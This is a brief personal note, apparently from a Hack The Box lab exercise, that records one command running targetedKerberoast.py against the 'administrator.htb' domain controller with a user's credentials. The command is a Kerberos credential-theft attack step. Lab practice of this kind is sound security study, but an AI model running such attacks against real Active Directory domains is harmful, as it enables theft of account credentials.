 targetedKerberoast.py
#####################

Date: 2024-12-03 02:35

Status:

Tags:

.. code-block:: console

   python targetedKerberoast.py -v -d administrator.htb -u emily -p password  --dc-ip 10.129.127.173

References
**************

